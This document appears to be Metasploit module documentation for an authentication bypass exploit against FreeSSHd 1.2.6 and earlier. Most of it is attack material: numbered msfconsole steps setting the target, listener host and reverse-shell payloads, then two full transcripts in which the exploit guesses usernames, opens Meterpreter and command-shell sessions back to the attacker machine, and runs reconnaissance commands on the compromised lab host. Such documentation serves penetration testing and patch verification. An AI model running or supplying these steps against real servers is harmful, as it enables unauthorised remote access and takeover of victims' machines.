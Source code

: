 ## Description

This module exploits a vulnerability found in FreeSSHd <= 1.2.6 to bypass authentication. You just need the username (which defaults to root). The exploit has been tested with both password and public key authentication.


## Verification

  1. Start msfconsole
  2. Do : `use exploit/windows/ssh/freesshd_authbypass`
  3. Do : `set RHOST [target IP]`
  4. Do : `set PAYLOAD [valid windows payload]` if you want to use other payloads (`windows/meterpreter/reverse_tcp` by default)
  5. Do : `set LHOST [Your IP]`
  6. Do : `set LPORT [valid port]` (port is `4444` by default)
  7. Do : `exploit`
  8. If target is vulnerable, a shell (`meterpreter` by default) should pop

## Example with default payload (windows/meterpreter/reverse_tcp)
```
msf > use exploit/windows/ssh/freesshd_authbypass
msf exploit(windows/ssh/freesshd_authbypass) > set RHOST 192.168.80.131
RHOST => 192.168.80.131
msf exploit(windows/ssh/freesshd_authbypass) > set LHOST 192.168.80.138
LHOST => 192.168.80.138
msf exploit(windows/ssh/freesshd_authbypass) > exploit

[*] Started reverse TCP handler on 192.168.80.138:4444 
[*] 192.168.80.131:22 - Trying username '4Dgifts'
[*] 192.168.80.131:22 - Trying username 'EZsetup'
[*] 192.168.80.131:22 - Trying username 'OutOfBox'
[*] 192.168.80.131:22 - Trying username 'ROOT'
[*] Sending stage (179779 bytes) to 192.168.80.131
[*] Meterpreter session 2 opened (192.168.80.138:4444 -> 192.168.80.131:49166) at 2018-11-16 16:10:33 +0800

meterpreter > sysinfo
Computer        : SSH-TEST-SERVER
OS              : Windows 8.1 (Build 9600).
Architecture    : x86
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter > 

```

## Example with plain old reverse shell (windows/shell_reverse_tcp)
```
msf > use exploit/windows/ssh/freesshd_authbypass
msf exploit(windows/ssh/freesshd_authbypass) > set RHOST 192.168.80.131
RHOST => 192.168.80.131
msf exploit(windows/ssh/freesshd_authbypass) > set PAYLOAD windows/shell_reverse_tcp
PAYLOAD => windows/shell_reverse_tcp
msf exploit(windows/ssh/freesshd_authbypass) > set LHOST 192.168.80.138
LHOST => 192.168.80.138
msf exploit(windows/ssh/freesshd_authbypass) > set LPORT 4444
LPORT => 4444
msf exploit(windows/ssh/freesshd_authbypass) > exploit

[*] Started reverse TCP handler on 192.168.80.138:4444 
[*] 192.168.80.131:22 - Trying username '4Dgifts'
[*] 192.168.80.131:22 - Trying username 'EZsetup'
[*] 192.168.80.131:22 - Trying username 'OutOfBox'
[*] 192.168.80.131:22 - Trying username 'ROOT'
[*] Command shell session 1 opened (192.168.80.138:4444 -> 192.168.80.131:49167) at 2018-11-16 16:12:19 +0800



C:\Windows\system32>ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : localdomain
   Link-local IPv6 Address . . . . . : fe80::5d22:f345:9ea1:a320%3
   IPv4 Address. . . . . . . . . . . : 192.168.80.131
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 

Tunnel adapter isatap.localdomain:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : localdomain

C:\Windows\system32>hostname
hostname
SSH-TEST-SERVER

C:\Windows\system32>
```
